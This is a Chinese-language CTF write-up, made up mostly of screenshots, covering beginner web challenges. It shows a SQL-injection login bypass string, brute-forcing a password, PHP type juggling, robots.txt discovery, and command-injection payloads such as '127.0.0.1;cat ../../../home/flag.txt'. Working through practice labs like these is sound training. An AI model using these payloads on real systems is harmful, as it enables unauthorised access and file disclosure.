 # get_post

![输入图片说明](image/8ad55f4dbc8440218d9e044e34844265.png)

用max hackbar在url后面加上?a=1

![输入图片说明](image/5aea99cfa623486694c8b6c6035700f7.png)

选择post，添加b=2

![输入图片说明](image/236809ddad2548f0859f5fce8d2f1da6.png)

得到flag

![输入图片说明](image/43cc99c9e0d5466983f7359c651805f5.png)

# weak_auth

![输入图片说明](image/19a538a842854b90bbfffeeb1c7c150b.png)

尝试万能密码：' admin or 1=1 -- #

![输入图片说明](image/e8d43652d86041ac8041370f857316ef.png)

尝试进行爆破

![输入图片说明](image/d792cd645c914203bc79e8e39de4250b.png)

![输入图片说明](image/de93ecea9f3b4d389e3fe9697829a482.png)

用爆破出来的密码进行登录

![输入图片说明](image/8fd9e873bae44a22b365381ac0f5e813.png)

# simple_php

![输入图片说明](image/00f4ee444429400399b1e97d6006e145.png)

后面添加?a=0 && b=1235abc

![输入图片说明](image/ada033aa5f6243da867724ae4fd65a58.png)

# Training-WWW-Robots

![输入图片说明](image/961bda4bb2104f0b965e88ef5f637848.png)

查看/robots.txt

![输入图片说明](image/3f758ba1e51e4f39855e368dd35bb7cf.png)

/fl0g.php

![输入图片说明](image/9c3e0f025953465f937e423309a55154.png)

# command_execution

![输入图片说明](image/5c46128c5d7a4d39a354d02b6dfba041.png)

![输入图片说明](image/ed6886847b1d4fbc8540026c532bf7f2.png)

127.0.0.1;id，可以执行

![输入图片说明](image/ef116661d9e34df6ace038e08626f50f.png)

查找flag：127.0.0.1;cat ../../../home/flag.txt

![输入图片说明](image/16abef54659f41b486d8bf634c58abf1.png)